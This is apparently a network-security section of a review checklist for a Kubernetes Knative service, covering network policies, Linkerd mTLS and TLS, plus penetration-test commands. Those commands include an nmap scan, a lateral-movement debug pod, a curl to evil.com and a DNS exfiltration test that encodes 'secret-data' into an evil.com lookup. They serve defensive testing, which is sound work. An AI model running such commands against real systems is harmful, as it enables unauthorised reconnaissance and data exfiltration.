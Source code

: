 
### 6. Network Security (P1)

#### Network Configuration Review
```yaml
Network Policies:
  Ingress Rules:
    - [ ] Default deny all
    - [ ] Explicit allow from Knative Eventing
    - [ ] No public internet access
    Status: [ ] Configured [ ] Missing
    
  Egress Rules:
    - [ ] Allow DNS
    - [ ] Allow Kubernetes API
    - [ ] Allow MinIO/S3
    - [ ] Allow container registry
    - [ ] Deny all other
    Status: [ ] Configured [ ] Missing

Service Mesh (Linkerd):
  mTLS:
    - [ ] Enabled for all services
    - [ ] Certificate rotation configured
    - [ ] Strong cipher suites
    Status: [ ] Enabled [ ] Disabled
    
  Authorization Policies:
    - [ ] L7 policies configured
    - [ ] Service-to-service auth
    Status: [ ] Configured [ ] Missing

TLS/SSL:
  External Traffic:
    - [ ] TLS 1.2+ only
    - [ ] Strong ciphers only
    - [ ] Valid certificates
    Status: [ ] Configured [ ] Missing
    
  Internal Traffic:
    - [ ] mTLS via Linkerd
    - [ ] Certificate validation
    Status: [ ] Configured [ ] Missing
```

#### Network Penetration Tests
```bash
# Test from outside the cluster
nmap -sV <external-ip>

# Test lateral movement
kubectl run -it --rm debug --image=nicolaka/netshoot -- /bin/bash
# From inside: Try to reach other namespaces

# Test egress filtering
kubectl exec -n knative-lambda deployment/knative-lambda-builder -- \
  curl http://evil.com

# Test DNS exfiltration
kubectl exec -n knative-lambda deployment/knative-lambda-builder -- \
  nslookup $(echo "secret-data" | base64).evil.com
```

---